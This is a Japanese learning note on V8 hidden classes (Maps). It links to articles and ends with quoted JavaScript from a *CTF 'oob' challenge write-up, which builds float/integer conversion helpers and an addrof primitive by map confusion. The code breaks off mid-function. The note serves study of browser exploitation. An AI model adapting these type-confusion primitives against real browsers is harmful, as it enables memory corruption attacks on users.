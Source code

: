 #### Maps (Hidden Class)
以下の記事を読んで `Maps (Hidden Class)` について学びました。

- https://v8.dev/blog/fast-properties
- https://v8.dev/docs/hidden-classes
- https://engineering.linecorp.com/ja/blog/v8-hidden-class

自分は以下のようなことだけ理解しました。
- プロパティを効率的に管理するための構造体である。( [source](https://github.com/v8/v8/blob/main/src/objects/map.h#L130-L209) )
- この構造体にはプロパティの名前、属性、オフセットなどが保存されている。
- プロパティが変更されるたび、新たなHidden Classへの遷移が起こる。

%DebugPrintを使いながら、以下を確認しました。
- 同じプロパティを持つオブジェクトのmapは同じアドレスを指していること
- プロパティを変更するとアドレスが変わること

<details></details>

#### エクスプロイト
// TODO フルエクスプロイトを読んで、何をやってるのか理解する

こちらのブログで解説されている

cf. https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/
```js
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

/// Construct addrof primitive
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

console.log("[+] Float array map: 0x" + ftoi(float_arr_map).toString(16));
console.log("[+] Object array map: 0x" + ftoi(obj_arr_map).toString(16));

function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.oob(float_arr_map);

    // Get the address by accessing index 0
    let addr = obj_arr[0];

    // Set the map back
    obj_arr.oob(obj_arr_map);

    // Return the address as a BigInt
```